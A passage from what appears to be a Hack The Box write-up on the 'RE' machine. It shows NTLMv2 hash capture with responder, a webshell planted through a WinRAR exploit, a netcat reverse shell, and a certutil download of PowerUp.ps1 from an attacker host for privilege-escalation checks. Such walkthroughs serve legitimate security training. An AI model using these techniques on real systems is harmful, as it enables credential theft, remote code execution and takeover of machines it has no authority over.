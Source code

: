 The .rar file will try to extract to an SMB on my system and I'll use responder to get the NetNTLMv2 hash of the user.

![](/assets/images/htb-writeup-re/responder.png)

I tried cracking Cam's NTLMv2 hash but I wasn't able to crack it with rockyou.txt.

When I check the web directory, I see that Cam has write access:

```
C:\inetpub>icacls wwwroot
wwwroot RE\coby:(OI)(CI)(RX,W)
        RE\cam:(OI)(CI)(RX,W)
        BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
        NT SERVICE\TrustedInstaller:(I)(F)
        NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
        BUILTIN\Users:(I)(RX)
        BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

I can place a webshell in the directory using the same Winrar exploit:

![](/assets/images/htb-writeup-re/aspx1.png)

And now I have RCE as `iis apppool\re`

![](/assets/images/htb-writeup-re/aspx2.png)

I'll pop another shell with netcat:

```
# nc -lvnp 5555
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.144.
Ncat: Connection from 10.10.10.144:60328.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\re

c:\windows\system32\inetsrv>
```

Then use PowerUp from Powersploit to look for privesc vectors:

```
c:\ProgramData>certutil -urlcache -f http://10.10.16.9/PowerUp.ps1 powerup.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\ProgramData>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> import-module .\powerup.ps1
PS C:\ProgramData> invoke-allchecks

[...]

ServiceName   : UsoSvc
```